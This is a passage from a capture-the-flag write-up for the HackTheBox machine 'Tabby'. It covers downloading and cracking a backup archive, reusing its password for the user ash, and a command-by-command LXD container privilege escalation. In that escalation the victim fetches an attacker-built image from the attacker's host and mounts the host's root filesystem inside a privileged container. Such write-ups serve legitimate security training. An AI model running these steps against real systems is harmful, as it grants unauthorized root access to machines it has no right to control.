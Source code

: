 ```terminal
wget http://10.10.10.194/files/16162020_backup.zip
```

### Cracking archive password
***
![Desktop View]({{ "/assets/img/tabby/HTB-Images-Tabby-archive_password.png" | relative_url }})

![Desktop View]({{ "/assets/img/tabby/HTB-Images-Tabby-crackzip.png" | relative_url }})


### Reusing password of ash user
***
ash user reuse this password and we can connect on from "su" command.

![Desktop View]({{ "/assets/img/tabby/HTB-Images-Tabby-reuse_password.png" | relative_url }})

![Desktop View]({{ "/assets/img/tabby/HTB-Images-Tabby-flag_user.png" | relative_url }})


## **<span style='color:#c0392b'>[5] Privilege Escalation - Gain higher-level permissions</span>**
### Enumeration
***
Many interesting information about lxd from linpeas enumeration.

![Desktop View]({{ "/assets/img/tabby/HTB-Images-Tabby-linpeas.png" | relative_url }})

![Desktop View]({{ "/assets/img/tabby/HTB-Images-Tabby-linpeas_1.png" | relative_url }})

![Desktop View]({{ "/assets/img/tabby/HTB-Images-Tabby-linpeas_2.png" | relative_url }})


### Container LXD Exploitation
***
References : 
* <https://www.hackingarticles.in/lxd-privilege-escalation/>
* <https://www.exploit-db.com/exploits/46978>
* <https://github.com/saghul/lxd-alpine-builder>

The solution : mount root path in container with `lxd alpine builder`

From offensive machine :
```terminal
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

From victim machine :
```terminal
wget 10.10.14.67:1337/alpine-v3.12-x86_64-20200906_1836.tar.gz
lxc image import alpine-v3.12-x86_64-20200906_1836.tar.gz --alias privuser45 && lxd init --auto
lxc image list
lxc init privuser45 privesc -c security.privileged=true
lxc config device add privesc giveMeRoot disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc sh
```
